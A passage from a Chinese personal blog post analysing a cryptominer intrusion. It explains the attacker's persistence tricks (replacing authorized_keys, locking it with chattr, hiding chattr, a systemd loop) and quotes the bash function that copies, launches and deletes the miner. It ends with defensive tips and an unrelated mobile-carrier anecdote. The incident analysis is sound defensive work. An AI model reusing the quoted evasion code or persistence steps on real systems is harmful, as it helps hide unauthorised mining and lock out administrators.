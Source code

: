 
代码对抗的意图很明显，写了个公钥覆盖掉已有的 `authorized_key`，然后`chattr`设定只读。

他还有个 `/usr/sbin/chattr_bakv2 `，推测攻击者在某些地方会把系统原有的 `chattr`换个名字，让管理员上去排查的时候没有`chattr`可用，好家伙，直呼内行。

`/usr/sbin/rmt_remount-open` 就是挖矿程序的本体了，先把挖矿程序复制到 `/usr/bin/$random_name`，然后启动挖矿程序，删除掉挖矿程序。由于shell脚本本身是 `systemd`启动的，我们停止了挖矿程序后 `systemd`又会执行一遍这个脚本，陷入无尽的循环。

```bash
functie_on(){
	$static2 -i -a -j -t -d -u /usr/bin
	$static2 -i -a -j -t -d -u /usr
	$static $locatie_miner_default /usr/bin/$random_name
	/usr/bin/$random_name > /dev/null 2>&1 & disown
	echo $random_name > $locatie_pid
	$static3 -rf /usr/bin/$random_name
}
```

但是又有一个问题，`systemd`关心的是这个 shell脚本的状态，shell脚本执行了`	/usr/bin/$random_name > /dev/null 2>&1 & disown`就跑路了，`disown`参数把这个进程从 `jobs`中移除了，即使退出了shell也不会影响他执行。那么，我们给 `/usr/bin/$random_name`发送了 `kill -9`之后，他的脚本如何发现这个进程已经退出了然后重新启动的呢？我们发送 `kill -i`不会影响这个shell脚本的执行的。


# 后记

1. 两天时间溯源两台机器，甚至有点好玩，无聊的研究生活里面的一点乐趣了（打乒乓球、羽毛球、恰火锅也很快乐） :)
2. 溯源的时候千万不要把攻击者钱包的地址改成自己的然后就不管了，这样攻击者的程序会自动在内网扩散然后上千个CPU帮你挖 xmr ，还有可能吃国家饭 :)
3. 不要把 ssh 映射到公网了，虽然你的口令可能比较强，但是其他用户可能是弱口令
4. 不要用弱口令， `root:123456`这类口令基本是白给的
5. 不只是 ssh 容易被攻击， redis 未授权，java框架的各种反序列化分分钟 getshell
6. 挖矿木马已经是极其文明讲理的木马了，如果对方是勒索软件、APT攻击者，那么后果就严重了　:)
7. 建议攻击者下次还是劫持 `getdents` 这类系统调用来隐藏自己，直接删除自己这个技术含量不太高，PS一下子就看到了
8. fa les duo ma laki



# 碎碎念

昨天移动给我发短信，说我移动号卡行为异常，让我登录移动掌厅或者去营业厅核验。拜托查准率高一点好不好，我就收个快递短信，每天两点一线，用来上个网，怎么就命中断卡行动恶意行为监测的特征了(希望这个特征不要被诈骗分子发现了，虽然我把它写出来了233333) 

此时我的手机已经变成了2G网络，只能打电话不能上网了。还好我还有一张卡可以凑合续命。:) 



![](https://static.scuseek.com/20210518192826.png)

下载移动掌厅，点击客服，他提示我可能的原因，并且让我 24h 内通过移动公众号或者营业厅核验，有中间商赚差价，直接抽成 `29/30*100%=96.7%`，比黄四郎抽的还多  :)

![](https://static.scuseek.com/20210518192730.png)

看了下住的地方旁边有个营业厅，今天早晨8:30走过去，担心去早了没开门。

他给我说关注北京反诈公众号可以操作。

我给他说移动短信让我到营业厅核验。
